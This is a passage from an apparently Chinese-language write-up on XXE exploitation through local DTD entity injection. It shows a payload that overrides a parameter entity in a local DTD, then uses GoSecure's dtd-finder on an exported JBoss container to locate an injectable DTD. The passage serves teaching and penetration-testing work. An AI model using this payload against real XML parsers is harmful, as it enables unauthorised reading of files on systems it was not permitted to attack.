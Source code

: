 ```bash
<!DOCTYPE xxe[
<!ENTITY x SYSTEM "file:///usr/share/xyz/legit.dtd"> 
<!ENTITY % injectable 'injecting)> You Control Contents inside this DTD now!!! <!ENTITY % fake ('>
%x;
]>
<root>
..
</root>
```

然后，解析的 XML 内容将从现在  
`<!ENTITY % random (%injectable;)>`变为<!ENTITY % random (**injecting)> You Control Contents inside this DTD now!!! <!ENTITY % fake (**)>

# 0x08 本地 DTD 发现

GoSecure 还发布了一种工具来查找 DTD，该 DTD 包含可注入实体，并以 Docker 容器的导出文件系统为输入。所以我拉取了特定版本的 JBoss Docker 镜像，启动了它，并使用以下命令将该 Docker Container 导出到文件系统：

```bash
$ docker export {container} -o jboss.tar
$ java -jar dtd-finder-1.0-all.jar jboss.tar
```

[![](assets/1704850652-489b1f389a50470141e3bad16dba7859.png)](https://cdn.nlark.com/yuque/0/2019/png/336528/1575814419125-b2894fc8-27c5-40c1-b71a-32b3b72bffea.png#align=left&display=inline&height=412&name=image.png&originHeight=823&originWidth=1494&size=197710&status=done&style=none&width=747)

它在目标 JBoss Docker 容器的文件系统的 jar / zip 文件中发现了一些带有可注入实体的 DTD。  
发现以下 jar/modules/system/layers/base/org/jboss/security/xacml/main/jbossxacml-x.x.x.Final-redhat-x.jar，其中里面有`/schema/xmlschema/XMLSchema.dtd`文件，该文件包含名为**“ xs-datatypes”**的可注入实体  
下面是 XMLSchema.dtd 的内容：
